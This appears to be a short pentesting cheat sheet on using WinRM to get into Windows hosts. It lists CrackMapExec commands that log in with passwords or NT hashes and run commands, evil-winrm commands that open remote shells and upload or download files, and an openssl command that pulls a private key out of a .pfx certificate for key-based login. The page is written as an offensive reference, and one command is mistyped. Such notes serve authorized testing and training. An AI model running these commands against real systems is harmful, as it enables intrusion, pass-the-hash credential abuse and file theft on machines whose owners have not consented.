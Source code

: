 ###### Requirement
>For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.
###### Authentication
```
cme winrm ip -u username -p password
cme winrm ip -u username -p password -x command
cmd winrm ip -u username -H nthash
cme winrm ip -u username -H nthash -x command
```

###### Get-shell
>This shell is the ultimate WinRM shell for hacking/pentesting.

>WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. Microsoft included it in their Operating Systems in order to make life easier to system administrators.


```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash

evil-winrm basic commands:
upload local_filename || upload local_filename destination_filename
download remote_filename || download remote_filename destination_filename

```
###### Evil-Winrm to connect via pem
```
evil-winrm -i 10.10.11.152 -S -k keyStore.pem -c keyStore.pem

Convert a PKCS#12 file (.pfx .p12) containing a private key and certificates to PEM:
openssl pkcs12 -in legacyy_dev_auth.pfx -out keyStore.pem -nodes 
```
